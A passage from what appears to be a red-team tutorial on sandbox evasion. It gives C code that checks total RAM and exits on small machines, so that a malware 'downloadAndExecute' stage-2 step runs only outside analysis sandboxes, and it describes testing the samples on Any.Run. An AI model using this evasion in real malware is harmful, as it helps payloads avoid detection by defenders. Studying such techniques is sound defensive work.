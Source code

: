 This code can be broken down into the following steps:

    We're going to declare the MEMORYSTATUSEX Struct; this will be populated with info from the GlobalMemoryStatusEx WinAPI.
    Now, we must set the length of the struct so that we can populate it with data. To do so, we're going to use the sizeof function.
    Now that we have the length of the struct, we can populate it with data from the GlobalMemoryStatusEx WinAPI.
    We can now read the total memory amount from the system.

Integrating This into our Code

Now that we have the technical know-how, we should integrate this check into our code. Generally speaking (You should verify this by yourself), most Sandboxes have 4GB of RAM dedicated to the machine, so we should check and see if the memory count is greater than 5; if it is not, exit the program; if it is, continue execution. We will not be modifying the downloadAndExecute function anymore; from here on, we will be adding new functions and changing the main function.

```
BOOL memoryCheck() {
// This function will check and see if the system has 5+GB of RAM
// Declare the MEMORYSTATUSEX Struct    
    MEMORYSTATUSEX statex;
// Set the length of the struct to the size of the struct    
    statex.dwLength = sizeof(statex);
// Invoke the GlobalMemoryStatusEx Windows API to get the current memory info    
    GlobalMemoryStatusEx(&statex);
// Checks if the System Memory is greater than 5.00GB    
    if (statex.ullTotalPhys / 1024 / 1024 / 1024 >= 5.00) {        
       return TRUE;    
    } else {        
       return FALSE;
    }
}

```

This code can be broken down into the following steps:

    We're creating a new function (memoryCheck) that will return True or False.
    We use the previous code from above to get the size of the system memory.
    We check if the system memory is greater than 5GB; if it is true, we return TRUE; if false, we return FALSE.
    The value returned from the function determines if we download and execute stage 2 or not.

Testing our Code

Now that we have finished the second of our third Sandbox Evasion method, it is important that we test it to ensure that it works. To do so, we are going to upload our files to Any.Run

    One with the Memory Check function
    One without the Memory Check function

Looking at the two samples side by side shows some interesting differences; in the first submission, our memory check function works without any issue and gracefully exits the program when it notices the device has less than 5GB of RAM.
